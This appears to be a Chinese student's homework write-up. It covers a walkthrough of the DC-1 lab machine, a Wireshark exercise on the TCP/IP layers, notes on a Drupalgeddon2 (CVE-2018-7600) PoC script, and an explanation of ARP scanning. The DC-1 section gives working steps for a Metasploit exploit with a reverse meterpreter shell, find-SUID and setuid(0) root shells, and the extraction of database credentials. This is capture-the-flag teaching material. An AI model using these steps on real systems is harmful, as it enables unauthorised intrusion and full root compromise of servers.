# 🧪 DC-1 靶机提权+5个flag

------

## 🔍 一、获取目标 IP

使用以下命令扫描局域网 IP：

```bash
sudo nmap -sP 192.168.?.0/24
```



------

## 🛠️ 二、Metasploit 利用 Drupalgeddon2 漏洞

### ✅ 第 1 步：启动 Metasploit 控制台

```bash
msfconsole
```

### ✅ 第 2 步：搜索并使用漏洞模块

```msf
search drupalgeddon2
use exploit/unix/webapp/drupal_drupalgeddon2
```

### ✅ 第 3 步：配置目标信息

```msf
set RHOSTS 192.168.126.139
set TARGETURI /
```

### ✅ 第 4 步：设置 Payload

```msf
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.126.128  # 你的 Kali IP 地址
set LPORT 4444
```

使用以下命令获取 Kali IP：

```bash
ip a
```

### ✅ 第 5 步：运行攻击模块

```msf
run
```

成功后提示：

```
[*] Sending stage (38247 bytes) to 192.168.126.139
[*] Meterpreter session 1 opened ...
```



### ✅ 第 6 步：提升交互性（获得 bash shell）

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```



------

## 💻 三、Meterpreter Shell 常用命令速查表

| 命令                 | 功能说明         |
| -------------------- | ---------------- |
| `sysinfo`            | 查看系统信息     |
| `shell`              | 进入系统 shell   |
| `getuid`             | 查看当前用户身份 |
| `ls`, `cd`           | 文件目录操作     |
| `download`, `upload` | 上传/下载文件    |
| `background`         | 挂起当前会话     |
| `sessions -i 1`      | 恢复会话         |
| `exit`               | 退出会话         |

------

## 🔓 四、提权操作建议

### ✅ 1. 上传提权检查脚本（如 LinEnum）

### ✅ 2. 查找 SUID 文件（可利用提权）

```bash
find / -perm -4000 -type f 2>/dev/null
```

### ✅ 3. 查看 sudo 权限

```bash
sudo -l
```

### ✅ 4. 常见提权方式：SUID、计划任务、内核漏洞（如 Dirty COW）

------

## ⚔️ 五、提权实战：find SUID 提权

发现 `/usr/bin/find` 有 SUID 权限：

```bash
find . -exec /bin/sh -i \; -quit
```

验证：

```bash
find /tmp -exec id \; -quit
```



### ✅ 修正 euid 与 uid 问题(flag5终极提权)

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```



------

## 🏁 六、获取 DC-1 靶机中的 5 个 flag

| Flag编号 | 路径                     | 获取阶段  | 获取方式说明                                                |
| -------- | ------------------------ | --------- | ----------------------------------------------------------- |
| flag1    | `/var/www/flag1.txt`     | 信息收集  | 📂 使用目录扫描工具（如 gobuster）找到文件并查看内容。       |
| flag2    | Drupal 配置文件注释中    | 信息收集  | 🔍 查看 `/var/www/sites/default/settings.php` 文件注释内容。 |
| flag3    | 数据库字段中             | 漏洞利用  | 🔎 获取数据库凭据后登录数据库，查看字段内容获取 flag。       |
| flag4    | `/home/flag4/flag4.txt`  | 提权后    | 🧗 提权后访问用户主目录读取 flag。                           |
| flag5    | `/root/thefinalflag.txt` | Root 权限 | 👑 提权为 UID 0 后读取此终极 flag。                          |

------

## 🎯 flag 获取详细说明

### 🏁 flag1

- **路径**：`/var/www/flag1.txt`

- **内容**：

  ```
  Every good CMS needs a config file - and so do you.
  ```

- **含义**：提示查找 Drupal 配置文件：`/var/www/html/sites/default/settings.php`



------

### 🏁 flag2

- **路径**：Drupal 配置文件注释中

- **快速查找**：

  ```bash
  find /var/www -name settings.php
  cat /var/www/sites/default/settings.php
  ```

- **注释内容**：

  ```
  Brute force and dictionary attacks aren't the
   * only ways to gain access (and you WILL need access).
   * What can you do with these credentials?
  ```



------

### 🏁 flag3

- **位置**：数据库中的某个字段（如 node 内容）

#### 获取数据库凭据：

```bash
cat /var/www/html/sites/default/settings.php
```

获取如下信息：

```php
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

#### 登录数据库：

```bash
mysql -u dbuser -p
# 输入密码：R0ck3t
```

#### 查找 flag 内容：

```sql
use drupal;
SELECT nid, title FROM node;
SELECT body_value FROM field_data_body WHERE entity_id = 2;
```





------

### 🏁 flag4

- **提示来源**：flag3 暗示查看系统用户

```bash
cat /etc/passwd
```



- 查找到特定用户目录下的 flag：

```bash
cat /home/flag4/flag4.txt
```



------

### 🏁 flag5（终极 flag）

- **路径**：`/root/thefinalflag.txt`

```bash
cat /root/thefinalflag.txt
```




# 作业2

## 📡 任务目标

通过 Wireshark 实际抓包，截取 TCP/IP 五层模型中每一层的关键数据内容，理解数据在网络中是如何封装与传输的。

------

## 🧱 TCP/IP 五层模型与对应关键数据：

| 层级 | 名称           | 对应协议/内容     | Wireshark 中的显示位置/字段                                 |
| ---- | -------------- | ----------------- | ----------------------------------------------------------- |
| 5    | 应用层         | HTTP、DNS、FTP 等 | `Hypertext Transfer Protocol`、`Domain Name System`         |
| 4    | 传输层         | TCP、UDP          | `Transmission Control Protocol` 字段（源/目标端口、序列号） |
| 3    | 网络层         | IP（IPv4/IPv6）   | `Internet Protocol Version 4`（源/目的IP）                  |
| 2    | 数据链路层     | Ethernet          | `Ethernet II`（源 MAC、目标 MAC）                           |
| 1    | 物理层（逻辑） | 实际电信号/位流   | Wireshark 无法直接看到，用比特流表示                        |

------

## 🧪 实验步骤（用 Wireshark 抓取一次 HTTP 或 ping 包为例）

### ✅ 第 1 步：启动 Wireshark 并选择正确的网卡

选择活动的网络接口开始捕获数据。

------

### ✅ 第 2 步：产生一个简单的网络请求

可以用以下命令：

```bash
curl www.baidu.com
```

------

### ✅ 第 3 步：在 Wireshark 中筛选感兴趣的数据包

使用过滤器：

```
http
```

------

### ✅ 第 4 步：查看并截图以下五层关键数据

### 🧱 **第 1 层：物理层**（逻辑推断）

Wireshark 无法直接显示物理层的电信号，但通过 `Frame` 可以看到其大小（即比特流）：

- **比特流长度**：

  ```
  Frame Length: 130 bytes (1040 bits)
  ```

  

------

### 🧱 **第 2 层：数据链路层（Ethernet II）**

字段来源：

```
Ethernet II, Src: VMware_fb:a4:29 (00:0c:29:fb:a4:29), Dst: VMware_fd:49:e8 (00:50:56:fd:49:e8)
```

- **源 MAC 地址（Source MAC）**：

  ```
  00:0c:29:fb:a4:29
  ```

- **目标 MAC 地址（Destination MAC）**：

  ```
  00:50:56:fd:49:e8
  ```

- **类型（Type）**：

  ```
  Ethertype: IPv4 (0x0800)
  ```

  

------

### 🧱 **第 3 层：网络层（IP）**

字段来源：

```
Internet Protocol Version 4, Src: 192.168.126.128, Dst: 153.3.238.28
```

- **源 IP（Source IP）**：

  ```
  192.168.126.128
  ```

- **目标 IP（Destination IP）**：

  ```
  153.3.238.28
  ```

- **协议类型**：

  ```
  Protocol: TCP (6)
  ```

  

------

### 🧱 **第 4 层：传输层（TCP）**

字段来源：

```
Transmission Control Protocol, Src Port: 38444, Dst Port: 80, Seq: 1, Ack: 1, Len: 76
```

- **源端口（Source Port）**：

  ```
  38444
  ```

- **目标端口（Destination Port）**：

  ```
  80
  ```

- **序列号（Sequence Number）**：

  ```
  1
  ```

- **确认号（Acknowledgment Number）**：

  ```
  1
  ```

- **数据长度（Len）**：

  ```
  76 字节
  ```

  

------

### 🧱 **第 5 层：应用层（HTTP）**

字段来源：

```
Hypertext Transfer Protocol
```

实际内容如下：

```
GET / HTTP/1.1
Host: www.baidu.com
User-Agent: curl/8.7.1
Accept: */*
```

- **HTTP 方法**：`GET`
- **请求路径**：`/`
- **Host**：`www.baidu.com`
- **User-Agent**：`curl/8.7.1`
- **Accept 类型**：`*/*`
- **完整请求 URI**：`http://www.baidu.com/`



------

## ✅ 整体结构总结如下：

| 层级       | 协议/类型   | 关键字段                                                     |
| ---------- | ----------- | ------------------------------------------------------------ |
| 应用层     | HTTP        | GET /，Host: [www.baidu.com，User-Agent](http://www.baidu.com,user-agent/): curl/8.7.1 |
| 传输层     | TCP         | 源端口：38444，目标端口：80，Seq=1，Ack=1                    |
| 网络层     | IPv4        | 源 IP：192.168.126.128，目标 IP：153.3.238.28                |
| 数据链路层 | Ethernet II | 源 MAC：00:0c:29:fb:a4:29，目标 MAC：00:50:56:fd:49:e8       |
| 物理层     | 位流        | 长度：130 字节（1040 bits）                                  |


# 作业三

------

## ✅ 1. 漏洞说明（CVE-2018-7600）

- 漏洞名称：**Drupalgeddon2**
- 影响版本：Drupal 7.x < 7.58、8.x < 8.3.9 / 8.4.6 / 8.5.1
- 利用效果：**未授权远程命令执行（RCE）**
- 原理：通过表单结构注入伪造字段，触发 `passthru()` 函数执行系统命令。

------

## ✅ 2. PoC 脚本说明（你提供的 `poc.py`）

该脚本的作用是对目标发起两次 HTTP 请求：

- **第一次**：构造伪造字段，注入 `passthru(id)`
- **第二次**：使用获取到的 `form_build_id` 触发 payload，执行命令 `id`

------

## ✅ 3. 使用流程

### 第一步：确认你已经安装依赖

```bash
pip install requests
```

### 第二步：修改脚本中的 HOST 地址为你的 DC-1 靶机地址

```python
HOST="http://192.168.126.139"
```



------

### 第三步：运行脚本

```bash
python3 poc.py
```

------

## ✅ 4. 成功回显示例

如果漏洞存在，输出应类似：

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

说明你已经 **成功执行了 id 命令**，靶机存在漏洞。



------

## 🧠 总结

| 项目     | 内容                           |
| -------- | ------------------------------ |
| 漏洞编号 | CVE-2018-7600                  |
| 影响组件 | Drupal < 7.58                  |
| 利用效果 | 未授权远程代码执行（无需登录） |
| 你的脚本 | 已准备好，可直接运行           |
| 成功标志 | 输出 `id` 命令执行结果         |

------


# 补充：

# 🧠 一、ARP 的基本作用

在局域网中通信时，主机需要通过对方的 **IP 地址** 找到对应的 **MAC 地址**，这时就用到了 ARP 协议（Address Resolution Protocol）。

------

# 🔍 二、ARP 探测的工作流程

```bash
sudo arp-scan -l
```

以你要探测 `192.168.126.130` 为例：

### 🔸 1. 发送 ARP 请求（ARP Request）

主机发送一个 **广播帧**（MAC 目的地址是 `ff:ff:ff:ff:ff:ff`），内容类似：

> “谁是 192.168.126.130？请把你的 MAC 地址告诉我！”

此广播会被局域网内所有主机接收。

------

### 🔸 2. 目标主机响应（ARP Reply）

如果 `192.168.126.130` 在线，它会回应：

> “我就是 192.168.126.130，我的 MAC 地址是 08:00:27:12:34:56。”



------

### 🔸 3. 主机记录结果（更新 ARP 缓存表）

收到回应后，主机会将该 IP 与 MAC 的映射记录在本地的 ARP 缓存中（可用 `arp -a` 查看）。

------

# 📡 三、ARP 探测在扫描中的应用

如 `nmap -sn` 或 `arp-scan` 这类工具，会自动对整个网段（如 `192.168.126.0/24`）逐一发送 ARP 请求，收集在线主机的 MAC 地址信息。

------

# 🧨 四、ARP 探测的特点

| 特性         | 描述                                                 |
| ------------ | ---------------------------------------------------- |
| 📍 局域网专用 | 基于广播，仅限于二层网络（同一子网）中使用。         |
| ⚡ 非常快速   | 以太网广播，速度快、延迟低。                         |
| 🔐 无认证     | 无身份校验机制，易被用于 ARP 欺骗/中间人攻击。       |
| ✅ MAC 精确   | 可获取真实 MAC 地址，结合 OUI 可判断厂商或设备类型。 |

------

# 🛡️ 补充：ARP 探测 vs ICMP 探测

| 类型      | 原理                       | 是否能显示 MAC | 是否受防火墙影响 |
| --------- | -------------------------- | -------------- | ---------------- |
| ARP 探测  | 广播请求目标主机 MAC 地址  | ✅ 是           | ❌ 几乎不被拦截   |
| ICMP 探测 | 基于 IP 层的 Ping 请求响应 | ❌ 否           | ✅ 易被拦截       |
